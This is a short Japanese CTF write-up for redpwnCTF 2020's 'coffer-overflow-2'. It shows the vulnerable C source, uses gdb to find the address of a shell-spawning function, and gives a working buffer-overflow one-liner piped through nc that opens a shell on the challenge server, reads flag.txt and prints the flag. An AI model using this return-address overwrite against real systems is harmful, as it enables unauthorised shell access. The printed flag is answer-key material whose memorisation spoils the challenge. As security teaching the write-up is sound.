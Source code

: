 # # <!--XXXXXXXXXX-->
You'll have to jump to a function now!?  
nc 2020.redpwnc.tf 31908  
[coffer-overflow-2](coffer-overflow-2)　　　　[coffer-overflow-2.c](coffer-overflow-2.c)  

# Solution
coffer-overflow-2とソースが与えられる。  
ソースは以下のようになっている。  
```c:coffer-overflow-2.c
#include <stdio.h>
#include <string.h>

int main(void)
{
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);
}

void binFunction() {
  system("/bin/sh");
}
```
binFunctionに飛ばしてやればよいのでgdbで以下のようにアドレスを調査する。  
```bash
$ gdb coffer-overflow-2
~~~
gdb-peda$ disass binFunction
Dump of assembler code for function binFunction:
   0x00000000004006e6 <+0>:     push   rbp
   0x00000000004006e7 <+1>:     mov    rbp,rsp
   0x00000000004006ea <+4>:     lea    rdi,[rip+0x112]        # 0x400803
   0x00000000004006f1 <+11>:    mov    eax,0x0
   0x00000000004006f6 <+16>:    call   0x400570 <system@plt>
   0x00000000004006fb <+21>:    nop
   0x00000000004006fc <+22>:    pop    rbp
   0x00000000004006fd <+23>:    ret
End of assembler dump.
```
0x00000000004006e6とわかったのでnameをオーバーフローさせてretの飛び先を書き換える。  
以下でシェルが得られた。  
lsしてflag.txtをcatする。  
```bash
$ (echo -e "AAAAAAAAAAAAAAAAAAAAAAAA\xe6\x06\x40\x00\x00\x00\x00\x00"; cat) | nc 2020.redpwnc.tf 31908
Welcome to coffer overflow, where our coffers are overfilling with bytes ;)
What do you want to fill your coffer with?
ls
Makefile
bin
coffer-overflow-2
coffer-overflow-2.c
dev
flag.txt
lib
lib32
lib64
cat flag.txt
flag{ret_to_b1n_m0re_l1k3_r3t_t0_w1n}
```

## flag{ret_to_b1n_m0re_l1k3_r3t_t0_w1n}